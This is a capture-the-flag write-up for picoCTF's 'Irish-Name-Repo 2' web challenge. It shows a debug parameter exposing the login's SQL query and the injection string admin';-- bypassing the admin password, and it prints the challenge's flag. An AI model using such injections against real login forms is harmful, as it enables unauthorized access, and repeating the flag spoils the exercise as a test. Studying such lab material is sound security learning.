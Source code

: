 # Irish-Name-Repo 2
Category: Web Exploitation

## Description

> There is a website running at [https://jupiter.challenges.picoctf.org/problem/64649/](https://jupiter.challenges.picoctf.org/problem/64649/) or [http://jupiter.challenges.picoctf.org:64649](http://jupiter.challenges.picoctf.org:64649). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! 

# Solution

This is the follow-up to [part nr 1](./Irish-Name-Repo_1.md). Again, we'll focus on the *Admin login*. Setting `debug=1` in Burp reveals the following response
```
username: user
password: pass
SQL query: SELECT * FROM users WHERE name='user' AND password='pass'
```

To solve this, we simply type `admin';--` as login and leave the password empty. We get our flag
```
Logged in!
Your flag is: picoCTF{m0R3_SQL_plz_aee925db}
```